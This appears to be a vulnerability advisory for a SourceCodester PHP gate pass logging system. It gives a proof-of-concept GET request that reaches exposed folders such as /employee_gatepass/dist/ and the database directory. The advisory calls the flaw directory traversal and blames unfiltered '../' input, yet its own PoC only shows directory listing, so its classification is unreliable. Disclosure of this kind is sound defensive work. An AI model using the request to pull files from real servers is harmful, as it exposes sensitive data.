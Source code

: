 ## Affected version: 
Employee and visitor pass logging system exposed to directory traversal vulnerability - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/database/
/employee_gatepass/dist/
/employee_gatepass/libs/
/employee_gatepass/uploads/
## Description:
The employee and visitor pass login system 1.0 has an unrestricted directory traversal attack, the attack method is /employee_gatepass/database/
/employee_gatepass/dist/
/employee_gatepass/libs/
/employee_gatepass/uploads/. Accessing the following route will allow unrestricted access to any file in the directory and can directly download it, thereby obtaining sensitive information from the server.
Status: CRITICAL

POC
```
GET /employee_gatepass/dist/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4bo37p217s2osfnh7ovs48s6p9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
![CleanShot 2025-03-13 at 19 53 03@2x](https://github.com/user-attachments/assets/bb102094-1a57-4622-9c31-7680683b75e0)

![CleanShot 2025-03-13 at 19 53 22@2x](https://github.com/user-attachments/assets/c52cbf4d-3152-4a4b-a165-28299fd2060c)


## code analysis:

The program does not adequately filter directory jump characters such as ../ entered by users, allowing malicious users to traverse any files on the server by submitting directory jumps.
![CleanShot 2025-03-13 at 19 55 21@2x](https://github.com/user-attachments/assets/858666c8-94b8-460f-b8ba-684e20cfbba3)
![CleanShot 2025-03-13 at 19 56 57@2x](https://github.com/user-attachments/assets/982c3f8b-df7e-419e-95cb-352c03c3487c)



